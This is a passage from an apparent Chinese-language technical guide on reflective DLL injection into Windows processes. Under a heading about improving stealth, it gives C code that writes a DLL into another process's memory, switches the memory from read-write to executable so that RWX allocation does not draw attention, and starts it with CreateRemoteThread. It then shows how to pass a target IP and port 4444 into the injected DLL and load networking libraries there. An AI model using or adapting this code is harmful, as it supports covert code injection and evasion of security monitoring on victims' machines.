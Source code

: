 ### 改进隐蔽性

**问题**: VirtualAllocEx(..., PAGE_EXECUTE_READWRITE) 太可疑

**改进**:
```c
// 1. 分配 RW 内存
LPVOID pMem = VirtualAllocEx(hProcess, NULL, size, MEM_COMMIT, PAGE_READWRITE);

// 2. 写入 DLL
WriteProcessMemory(hProcess, pMem, dllBuffer, size, NULL);

// 3. 改为 RX
DWORD oldProtect;
VirtualProtectEx(hProcess, pMem, size, PAGE_EXECUTE_READ, &oldProtect);

// 4. 创建线程
CreateRemoteThread(hProcess, NULL, 0, pReflectiveLoader, NULL, 0, NULL);
```

## 🛠️ 高级用法

### 1. 参数传递

```c
// 注入器
typedef struct {
    char targetIP[16];
    int targetPort;
} InjectionParams;

InjectionParams params = {"192.168.1.1", 4444};

// 传递参数
LoadRemoteLibraryR(hProcess, dllBuffer, dllSize, &params);

// DLL 中接收
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        InjectionParams *params = (InjectionParams*)lpReserved;
        // 使用 params->targetIP 和 params->targetPort
    }
    return TRUE;
}
```

### 2. 内存中加载额外 DLL

```c
// 在 DLL_PROCESS_ATTACH 中
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        // 加载其他 DLL
        LoadLibraryA("advapi32.dll");
        LoadLibraryA("ws2_32.dll");

        // 使用这些 DLL 的功能
    }
    return TRUE;
}
```
